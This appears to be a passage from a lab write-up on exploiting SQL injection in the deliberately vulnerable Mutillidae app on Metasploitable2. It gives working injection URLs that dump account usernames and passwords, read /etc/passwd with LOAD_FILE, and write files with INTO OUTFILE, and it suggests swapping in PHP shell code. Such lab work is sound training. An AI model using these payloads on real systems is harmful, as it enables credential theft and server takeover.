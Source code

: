 ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/fd338e2d-8b91-4f30-b377-3e0808857ca1)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/0f19e88e-5091-4e09-a788-ab4cacdcb145)


## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and 

passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/9ecb843f-8926-48bc-8eba-80215d962ad0)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the 

“/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
